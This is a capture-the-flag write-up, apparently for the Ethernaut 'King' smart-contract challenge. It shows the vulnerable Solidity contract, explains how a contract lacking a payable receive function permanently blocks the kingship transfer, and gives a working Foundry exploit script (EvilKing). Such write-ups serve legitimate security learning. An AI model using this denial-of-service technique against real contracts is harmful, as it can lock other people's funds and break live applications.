 ### Challenge Code

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

To claim kingship, you send ether to the contract. It forwards the payment to the previous king and sets you as the new king.

The trick is to deploy a malicious contract (`EvilKing`) that becomes king but **does not implement a payable `receive()` or fallback function**. When the King contract later tries to forward the prize to this malicious contract, the transfer fails and reverts. This blocks anyone else from ever becoming king again, locking the game.

### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/King.sol";

contract EvilKing {
    constructor (King _kingInstance) payable {
        address(_kingInstance).call{value: _kingInstance.prize()}("");
    }
}

contract KingSolution is Script {
    King public kingInstance = King(payable(<YOUR_INSTANCE>));

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new EvilKing{value: kingInstance.prize()}(kingInstance);
        vm.stopBroadcast();
    }
}
```
